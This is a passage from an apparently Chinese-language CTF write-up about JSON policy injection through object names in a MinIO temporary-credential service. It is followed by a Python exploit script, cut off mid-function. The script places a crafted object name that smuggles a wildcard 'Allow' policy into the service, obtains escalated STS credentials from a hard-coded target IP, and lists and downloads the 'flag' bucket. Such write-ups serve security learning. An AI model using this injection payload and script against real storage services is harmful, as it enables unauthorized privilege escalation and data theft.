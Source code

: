 上面我们看到policy是一个json,这里可以尝试使用"来闭合注入

![image-20250601201024318](https://tuchuang-1322176132.cos.ap-chengdu.myqcloud.com//imgimage-20250601201024318.png)

failed了，说明闭合上了，这里是可以注入的，后续也没啥东西了我觉得，就是注入一个高权限的policy，这里我直接甩exp

```
from minio import Minio
from minio.error import S3Error
import requests
import json
BASE_URL = "http://35.241.98.126:31802"  # ← 改成你的目标地址
UPLOAD_FILENAME = '"],\"Action\":[\"s3:GetObject\",\"s3:PutObject\"]},{"Effect": "Allow","Action": ["s3:GetObject","s3:PutObject","s3:ListBucket","s3:ListAllMyBuckets","s3:GetBucketLocation"],"Resource": "*"}]}aaa'
UPLOAD_CONTENT = b"This is a test file from attacker."
ACCESS_KEY = ""
SECRET_KEY = ""
BUCKET_NAME = "flag"
SESSION_TOKEN=""


# Step 1: 获取临时凭证
def get_temp_creds(object_name):
    global ACCESS_KEY, SECRET_KEY, SESSION_TOKEN
    url = f"{BASE_URL}/api/genSTSCreds"
    data = {"object_name": object_name}
    resp = requests.post(url, json=data)
    resp.raise_for_status()
    print("[+] 获取临时凭证成功")
    # temp=json.loads()
    ACCESS_KEY= resp.json()['access_key_id']
    SECRET_KEY=resp.json()['secret_access_key']
    SESSION_TOKEN=resp.json()['session_token']
    return ACCESS_KEY,SECRET_KEY,SESSION_TOKEN
# MinIO server configuration
get_temp_creds(UPLOAD_FILENAME)
# Initialize the MinIO client
print(ACCESS_KEY)
print(SECRET_KEY)
print(SESSION_TOKEN)
minio_client = Minio(
    "35.241.98.126:32402",
    access_key=ACCESS_KEY,
    secret_key=SECRET_KEY,
    session_token=SESSION_TOKEN,
    secure=False
)


def download_file(object_name, download_path):
    """Download a file from the MinIO bucket."""
    try:
        minio_client.fget_object(BUCKET_NAME, object_name, download_path)
        print(f"[+] File '{object_name}' downloaded to '{download_path}'")
    except S3Error as e:
        print(f"[-] Error downloading file: {e}")

def list_objects():
    """List all objects in the MinIO bucket."""
    try:
        objects = minio_client.list_objects(BUCKET_NAME)
        print("[+] Objects in bucket:")
        for obj in objects:
```